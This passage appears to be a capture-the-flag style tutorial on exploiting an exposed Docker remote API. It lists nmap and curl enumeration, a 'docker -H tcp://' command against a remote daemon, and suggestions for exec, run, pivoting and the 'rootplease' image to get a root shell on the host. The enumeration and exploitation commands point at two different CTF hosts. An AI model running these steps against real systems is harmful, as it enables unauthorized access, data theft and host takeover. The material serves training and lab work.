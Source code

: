 [[Docker]]
Enumerate
```
nmap -sV -p- http://honksay.ctf.maplebacon.org/
```

Confirming vulnerability:
```
curl https://jwtdecoder.sstf.site:3000/version
```

Execute:
```
docker -H tcp://jwtdecoder.sstf.site:3000 ps
```

6.4.4. Experiment  
Of course, listing the running containers is the least that we can do at this stage. We can start to create our own, extract their filesystems and look for data, or execute commands on the host itself. Here are a few docker commands that I'll leave for you to experiment with:
```

Command:
network ls  

Description: 
Used to list the networks of containers, we could use this to discover other applications running and pivot to them from our machine!  

  
Command:
images  

Description: 
List images used by containers, data can also be exfiltrated by reverse-engineering the image.  

  
Command:
exec  

Description:
Execute a command on a container  

  
Command:
run  

Description:
Run a container  

 ```

Experiment with some [Docker commands](https://raw.githubusercontent.com/sangam14/dockercheatsheets/master/dockercheatsheet8.png) to enumerate the machine, try to gain a shell onto some of the containers and take a look at using tools such as [rootplease](https://registry.hub.docker.com/r/chrisfosterelli/rootplease) to use Docker to create a root shell on the device itself.